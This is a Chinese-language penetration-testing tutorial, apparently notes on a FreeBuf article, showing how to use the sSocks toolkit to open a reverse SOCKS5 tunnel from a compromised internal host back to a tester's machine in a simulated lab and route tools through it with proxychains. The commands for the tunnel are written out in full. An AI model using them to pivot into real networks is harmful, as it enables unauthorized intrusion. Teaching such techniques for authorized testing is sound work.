

[Socks代理反弹突破内网](http://www.freebuf.com/articles/system/12182.html) 


#### sSocks

> sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13，可在以下链接处下载

[sourceforge.net/projects/ssocks](https://sourceforge.net/projects/ssocks/)

下载解压后，执行命令编译。
```
./configure && make
```

编译完成，进入src目录，会发现有nsocks、ssocksd、ssocks、rcsocks，其功能说明介绍如下：

程序   | 功能
---|---
nsocks | 类似通过Socks5代理后的netcat，可用来测试socks server
ssocksd| 用来开启Socks5代理服务
ssocks |本地启用Socks5服务，并反弹到另一IP地址
rcsocks|接收反弹过来的Socks5服务，并转向另一端口

#### 模拟网络环境说明

> 本文模拟的网络环境见下图1，渗透测试端IP为192.168.10.50，内网区域IP段192.168.206.0/24，内网区域能正常访问192.168.10.0/24，现假设已获得192.168.206.130权限。 



1、 本地监听端口

在渗透测试端192.168.10.50执行

```
./rcsocks -l 1088 -p 1080 -vv
```

等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道

2、开启Socks5代理服务，反弹在192.168.206.130上执行

```
./rssocks -vv -s 192.168.10.50:1080
```

启用Socks5服务，反弹到192.168.10.50的端口1080上，如图3，此时在渗透测试端192.168.10.50可看到通道连接成功

#### 利用proxychains进行Socks5代理

通过前面的步骤，Socks5代理已创建完成了。由于在渗透测试过程中，需要使用不同的工具程序，而在各程序中分别配置Socks5代理信息较为繁琐，而部分程序并不支持配置Socks5代理。为了简化这些操作，我们可以采用proxychains。

proxychains是一个代理客户端软件，可以支持几乎所有程序的代理，如ssh，telnet，ftp等。利用proxychains，程序能在代理的环境下被加载运行，而本身不需要具备代理功能。使用前需要对proxychains进行简单配置，打开配置文件proxychains.conf（在BT5位于/etc/proxychains.conf），如图5所示，在[ProxyList]处添加
socks5 127.0.0.1 1088

配置成功后若要启动程序，仅需要在启动程序命令前加上proxychains
```
proxychains firefox
```
firefox启动成功，访问192.168.206.135的web服务如图6，通过代理访问成功